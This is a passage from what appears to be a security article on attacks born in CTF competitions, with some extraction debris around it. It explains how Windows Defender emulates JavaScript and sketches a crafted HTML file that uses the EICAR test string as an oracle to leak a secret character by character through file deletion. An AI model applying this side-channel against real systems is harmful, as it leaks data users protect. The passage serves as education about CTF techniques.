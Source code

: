=> [2] Defender kindly *emulates* your file as JScript
</PRE>
```console
$ cat sample.txt
  var mal = "EICAR-STANDARD-ANTIVIRUS-TEST-FILE"
  eval(mal + "!")

$ ./mpclient sample.txt
  [...]
  EngineScanCallback(): Threat Virus:DOS/EICAR_Test_File identified.
```
<PRE>

So, let's say you can store a secret in the SESSION file, but there's no
way to read it directly. Crafting the following structure gives you the
ability to check whether the first character of the secret is an `A`: if
it is, the file gets deleted; otherwise, it stays. I think this technique
is super creative - and in some ways, it's a perfect example of how CTF
helps push the boundaries of cybersecurity!

=> Defender *emulates* the JavaScript inside

</PRE>
```text
+--------------------------------------------------------------+
|                       Crafted HTML File                      |
|--------------------------------------------------------------|
|              [ Arbitrary Padding / Junk Data ]               |
|                                                              |
| +----------------------------------------------------------+ |
| | <script>                                                 | |
| |    var c = document.body.innerHTML[0] == 'A' ? '!' : 0;  | |
| |    eval("EICAR-STANDARD-ANTIVIRUS-TEST-FILE" + c)        | |
| | </script>                                                | |
| +----------------------------------------------------------+ |
|                                                              |
| +----------------------------------------------------------+ |
| | <body>                                                   | |
| |            [ Leaked Secret / Sensitive Data ]            | |
| | </body>                                                  | |
| +----------------------------------------------------------+ |
|                                                              |
+--------------------------------------------------------------+
```
<PRE>

</PRE>
#### ----[  4. New Attacks and Techniques Born in CTFs
<PRE>

We've already talked about tons of PHP-related tricks, but honestly, most
of them didn't originally come from CTFs. On the other hand, we've
introduced brand-new attacks born in CTFs - but again, they weren't
exactly PHP-specific. So, are there any new attacks out there that are
both totally PHP-specific and originated from CTFs?
